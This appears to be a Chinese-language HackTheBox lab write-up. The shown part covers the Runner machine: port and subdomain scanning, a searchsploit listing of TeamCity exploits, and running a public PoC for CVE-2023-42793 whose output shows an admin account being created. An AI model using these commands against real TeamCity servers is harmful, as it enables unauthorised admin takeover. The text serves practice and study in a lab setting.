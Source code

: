 ```yaml
---
title: HackTheBox 笔记 - 2
date: 2024-06-04 13:52:00
tags: [Web, 渗透]
categories: 渗透
---
```


Runner / FreeLancer / Blurry


## Runner

扫端口，有 22，80，8000，访问 80 发现是个静态网页，dirsearch 也没扫出东西，再扫 8000，只有个 `/health` 和 `/version` 路由，也没什么用。
再扫子域名，也没扫出来东西，一看 wp 原来人家用的超大字典，晕

```bash
wfuzwfuzz -c -w  /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -u "http://runner.htb" -H "Host:FUZZ.runner.htb" --hw 10
```

于是就扫出来 `teamcity.runner.htb`，访问，是个 TeamCity。搜一下 CVE：

```bash
$ searchsploit teamcity
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                   |  Path
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
JetBrains TeamCity 2018.2.4 - Remote Code Execution                                                                                              | java/remote/47891.txt
JetBrains TeamCity 2023.05.3 - Remote Code Execution (RCE)                                                                                       | java/remote/51884.py
TeamCity < 9.0.2 - Disabled Registration Bypass                                                                                                  | multiple/remote/46514.js
TeamCity Agent - XML-RPC Command Execution (Metasploit)                                                                                          | multiple/remote/45917.rb
TeamCity Agent XML-RPC 10.0 - Remote Code Execution                                                                                              | php/webapps/48201.py
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

网页写着 `Version 2023.05.3 (build 129390)`，这不正好是 CVE-2023-42793，直接 `searchsploit -p java/remote/51884.py` 找到 PoC 的位置，然后复制过来跑

```bash
$ python 51884.py -u http://teamcity.runner.htb

=====================================================
*       CVE-2023-42793                              *
*  TeamCity Admin Account Creation                  *
*                                                   *
*  Author: ByteHunter                               *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.SXpoSWFONE1EaGJ3SmowbGxLMmNfSmlaZkZV.NzU0ZDU4NzYtNzU3My00ZTgwLWFmNWMtMGIyNjliZjY0ZDkw
Successfully exploited!
URL: http://teamcity.runner.htb
Username: city_adminOpx8
Password: Main_password!!**
```
